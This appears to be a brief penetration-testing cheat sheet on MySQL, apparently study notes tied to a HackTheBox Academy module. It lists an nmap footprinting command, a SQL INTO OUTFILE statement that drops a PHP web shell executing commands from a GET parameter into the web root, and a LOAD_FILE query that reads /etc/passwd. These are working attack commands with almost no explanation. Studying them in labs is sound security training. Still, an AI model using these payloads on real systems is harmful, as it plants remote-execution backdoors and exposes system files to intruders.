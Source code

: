 MySQL
########

Date: 2024-11-11 10:38

Status:

Mysql Ports
*************

Commonly the port 3306 is used by default

MySQL Footprinting
********************

Example 1: Using nmap with the mysql scripts

.. code-block:: console

   sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

MySQL Dropping shells and writing files
****************************************

Using the OUTFILE option to place shells.

example 1: Dropping a PHP shell

.. code-block:: console

   SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Mysql Reading files
*********************

.. code-block:: console

   select LOAD_FILE("/etc/passwd");

References
************
https://academy.hackthebox.com/module/112/section/1238
